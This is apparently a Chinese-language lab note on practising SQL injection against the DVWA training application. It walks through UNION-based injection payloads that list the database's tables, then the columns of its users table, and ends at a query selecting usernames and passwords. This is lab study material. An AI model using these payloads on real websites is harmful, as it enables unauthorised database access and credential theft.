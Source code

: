 数据库查询表中的列

~~~
show columns from SCHEMATA
~~~



![image-20230315140404403](D:\Program Files\Typora\images\image-20230315140404403.png)

查询库名

~~~
select SCHEMA_NAME from SCHEMATA
~~~



![image-20230315140746884](D:\Program Files\Typora\images\image-20230315140746884.png)

![image-20230315141005331](D:\Program Files\Typora\images\image-20230315141005331.png)



根据前面的查询 当前的数据库是 dvwa

![image-20230315133328151](D:\Program Files\Typora\images\image-20230315133328151.png)

根据后面的 一次退出 库名---表名---列名

查询出表名

 select 1,table_name from information_schema.tables where table_schema= 'dvwa'

做了一个筛选 库名为dvwa的 表名  最后查出来两个表   guestbook  users

~~~
1'and 1=2 union select 1,table_name from information_schema.tables where table_schema= 'dvwa'#
~~~

![image-20230315141523320](D:\Program Files\Typora\images\image-20230315141523320.png)

与数据库中查询的一致

![image-20230315141609653](D:\Program Files\Typora\images\image-20230315141609653.png)

根据表名推出列名  我们感兴趣的是users表  所以找这个表的列名

select 2,column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'

~~~
1'and 1=2 union select 2,column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'#
~~~

![image-20230315141838254](D:\Program Files\Typora\images\image-20230315141838254.png)

根据表的列  我们感兴趣的是user 和password

 select user ,password from dvwa.users
